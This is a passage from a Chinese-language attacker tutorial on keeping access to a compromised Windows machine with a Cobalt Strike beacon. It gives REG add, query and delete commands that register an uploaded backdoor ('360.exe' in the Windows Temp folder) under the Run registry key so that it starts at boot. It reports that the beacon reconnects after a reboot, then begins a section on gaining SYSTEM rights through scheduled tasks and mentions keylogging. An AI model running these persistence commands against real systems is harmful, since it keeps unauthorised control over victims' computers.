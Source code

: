 上面这个会对所有用户生效，如果只想对当前用户生效，把 HKEY_LOCAL_MACHINE 改为 HKEY_CURRENT_USER 就可以了。

REG add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v 360 /d "C:\Windows\Temp\360.exe" /f

然后在 beacon 中执行：

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt50rcko7RYJ7DjruO9RmiagK1OJhERsJVsibuodJaZMSMIia3PE8SJZaQ6Q/640?wx_fmt=jpeg)

  

  

然后去被控机上面看是否生效:

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5Ioiakazqm4iaHreC106gXgmYliaSc4FQBFhKYWiavyOLQhqGTvVZVoqt2g/640?wx_fmt=jpeg)

  

  

成功了 。。还有⼀条删除命令：

REG delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v 360 /f #删除 360 这个进程

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5GIRhFeYCA3L9voQI0JGIwUJicubI6hW5pEGAZc4yh7eD2rFtvU5EIHA/640?wx_fmt=jpeg)

  

  

最后我先在 cs 上下了这台机器，然后重启了下这台机器，重启后发现 cs 直接上线，所以这步我们就此告—段落。

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5TvAzl02NicB6KBBQicicjPNY5K9LnyxGLtVATOEgCbWZodf8wL00J6Q8A/640?wx_fmt=png)

  

  

REG query"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"# 显示这个目录下的所有的值 REG add"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"/v360/d"C:\Windows\Temp\360.exe" /f #把上传的后门程序设置成开机自启动 REG delete"HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"/v 360/f #删除自启动

**维稳方法二：加入高权限组执行计划任务**

一般情况下我们获取的 CS 后门权限都是 administrator 的，

但是我们后期要弹 system 的 shell 时候，或者和域内 DC 机通讯的话，还是需要 system 权限的。最简单的提权

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt54zY1hCFK4kKwoL4YT8ZIVf7f6WjnoX7jePZCFgLCxCAx5Fa01WxMZw/640?wx_fmt=jpeg)

  

  

执行完后会新上线一台机器权限为 system，提权成功。

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5ZPEaGicfflzqtQxMicHp7c5Cr5uO6WFFMpVNDZicO1pHtzrX0KQUHybZQ/640?wx_fmt=jpeg)

  

  

但是慢慢发现，有的时候，system 权限并虽然高，但是感觉还是不适合我们操作，有些命令还是 administrator 权限执行可以，比如 wmi,schtasks,netuse r, 截屏，键盘记录等
